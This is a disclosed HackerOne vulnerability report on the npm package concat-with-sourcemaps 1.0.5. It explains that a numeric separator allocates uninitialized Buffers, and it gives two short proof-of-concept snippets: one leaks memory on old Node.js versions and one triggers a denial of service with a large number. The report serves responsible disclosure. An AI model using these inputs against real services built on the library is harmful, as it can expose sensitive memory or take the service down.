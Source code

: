 # `concat-with-sourcemaps` allocates uninitialized Buffers when number is passed as a separator

## Report Details
- **Report ID**: 320166
- **URL**: https://hackerone.com/reports/320166
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-02-27T04:40:33.617Z
- **Disclosed**: 2018-04-28T20:05:00.500Z

## Reporter
- **Username**: chalker
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report an uninitialized Buffer allocation issue in `concat-with-sourcemaps`.
It allows to extract sensitive data from uninitialized memory or to cause a DoS by passing in a large number, in (unlikely) setups where `separator` is attacker-controlled.

# Module

**module name:** `concat-with-sourcemaps`
**version:** 1.0.5
**npm page:** `https://www.npmjs.com/package/concat-with-sourcemaps`

## Module Description

> NPM module for concatenating files and generating source maps.

## Module Stats

65 161 downloads in the last day
360 873 downloads in the last week
1 506 421 downloads in the last month

~18 077 052 estimated downloads per year

# Vulnerability

## Vulnerability Description

See https://github.com/floridoo/concat-with-sourcemaps/blob/master/index.js#L18

The problem arises when a number is passed as a separator. That is unlikely to be attacker-controlled in real-world setups, but not impossible. The API should not propagate the already-bad Buffer issue further.

On Node.js 6.x and below, this exposes uninitialized memory, which could contain sensitive data.

On all Node.js versions, this can cause a DoS when a big enough number (e.g. 1e8 or 1e9) is specified as a separator.

## Steps To Reproduce:

Uninitialized memory exposure (Node.js 6.x and below):

```
const Concat = require('concat-with-sourcemaps');
var concat = new Concat(true, 'all.js', 234); // separator is 234
concat.add(null, "// (c) John Doe");
concat.add('file1.js', "const a = 10;");
concat.add('file2.js', "const b = 20;");
console.log(concat.content.toString('utf-8'));
```

DoS (any Node.js version):

Use e.g. 1e8, 1e9, or 1e10 to cause different effect (and depending on the Node.js version).

```
const Concat = require('concat-with-sourcemaps');
var concat = new Concat(true, 'all.js', 1e8); // separator is 234
concat.add(null, "// (c) John Doe");
concat.add('file1.js', "const a = 10;");
concat.add('file2.js', "const b = 20;");
console.log(concat.content.toString('utf-8'));
```

## Supporting Material/References:

- OS: Arch Linux current
- Node.js 9.5.0
- npm 5.6.0

# Wrap up

- I contacted the maintainer to let him know: N
- I opened an issue in the related repository: N

## Impact

Sensitive uninitialized memory exposure (on Node.js 6.x and below)
Denail of Service

## Attachments
No attachments
